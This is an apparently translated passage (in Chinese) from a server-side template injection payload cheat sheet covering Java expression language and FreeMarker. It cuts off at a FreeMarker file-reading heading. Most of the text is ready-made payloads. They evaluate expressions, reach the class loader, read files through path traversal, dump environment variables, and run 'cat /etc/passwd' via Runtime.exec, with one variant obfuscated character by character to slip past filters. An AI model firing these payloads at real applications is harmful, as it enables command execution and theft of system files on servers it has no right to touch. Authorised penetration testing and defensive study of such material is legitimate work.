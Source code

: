 ## Java

### Java - 基本注入

> 可以使用多个变量表达式，如果`${...}`不起作用，请尝试`#{...}`、`*{...}`、`@{...}`或`~{...}`。

```java
${7*7}
${{7*7}}
${class.getClassLoader()}
${class.getResource("").getPath()}
${class.getResource("../../../../../index.htm").getContent()}
```

### Java - 获取环境变量

```java
${T(java.lang.System).getenv()}
```

### Java - 获取/etc/passwd

```java
${T(java.lang.Runtime).getRuntime().exec('cat /etc/passwd')}

${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}
```

---

## FreeMarker

[官方网站](https://freemarker.apache.org/)
> Apache FreeMarker™ 是一个模板引擎：一个基于Java的库，用于根据模板和动态数据生成文本输出（HTML网页、电子邮件、配置文件、源代码等）。

您可以在[https://try.freemarker.apache.org](https://try.freemarker.apache.org)尝试您的负载。

### FreeMarker - 基本注入

模板可以是：

- 默认：`${3*3}`  
- 旧版：`#{3*3}`
- 替代：`[=3*3]` 自由Marker 2.3.4版本起[https://freemarker.apache.org/docs/dgui_misc_alternativesyntax.html](https://freemarker.apache.org/docs/dgui_misc_alternativesyntax.html)

### FreeMarker - 读取文件
